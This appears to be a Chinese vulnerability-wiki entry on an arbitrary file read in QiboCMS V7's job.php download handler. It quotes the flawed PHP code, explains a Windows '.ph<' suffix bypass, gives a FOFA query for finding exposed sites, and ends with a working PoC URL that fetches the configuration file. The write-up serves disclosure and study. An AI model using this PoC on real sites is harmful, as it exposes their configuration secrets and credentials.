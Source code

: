 # 齐博CMS V7 job.php 任意文件读取漏洞

## 漏洞描述

QiboCMS V7版本/do/job.php页面URL参数过滤不严，导致可以下载系统任意文件，获取系统敏感信息。

## 漏洞影响

```
齐博CMS V7
```

## FOFA

```
app="齐博软件-v7"
```

## 漏洞复现

漏洞分析 `/inc/job/download.php`

```
$url=trim(base64_decode($url));
    $fileurl=str_replace($webdb[www_url],"",$url);
    if( eregi(".php",$fileurl) && is_file(ROOT_PATH."$fileurl") ){
        die("ERR");
    }

    if(!$webdb[DownLoad_readfile]){
        $fileurl=strstr($url,"://")?$url:tempdir($fileurl);
        header("location:$fileurl");
        exit;
    }


    $webdb[upfileType] = str_replace(' ','|',$webdb[upfileType]);
    if( $webdb[local_download] && is_file(ROOT_PATH.$fileurl) && eregi("($webdb[upfileType])$",$fileurl) ){
        $filename=basename($fileurl);
        $filetype=substr(strrchr($filename,'.'),1);
        $_filename=preg_replace("/([\d]+)_(200[\d]+)_([^_]+)\.([^\.]+)/is","\\3",$filename);

        if(eregi("^([a-z0-9=]+)$",$_filename)&&!eregi("(jpg|gif|png)$",$filename)){
            $filename=urldecode(base64_decode($_filename)).".$filetype";
        }
        ob_end_clean();
        header('Last-Modified: '.gmdate('D, d M Y H:i:s',time()).' GMT');
        header('Pragma: no-cache');
        header('Content-Encoding: none');
        header('Content-Disposition: attachment; filename='.$filename);
        header('Content-type: '.$filetype);
        header('Content-Length: '.filesize(ROOT_PATH."$fileurl"));
        readfile(ROOT_PATH."$fileurl");
        exit;
    }
```

url base64解码,匹配后缀 如果是php结尾的就退出 在windows下能用xxx.ph< 绕过 然后经过一系列的正则后会下载文件。

```
if( eregi(".php",$fileurl) && is_file(ROOT_PATH."$fileurl") ){
        die("ERR");
    }
```

## 漏洞POC

```
/do/job.php?job=download&url=ZGF0YS9jb25maWcucGg8
```

![image-20220518160941881](./images/202205181609962.png)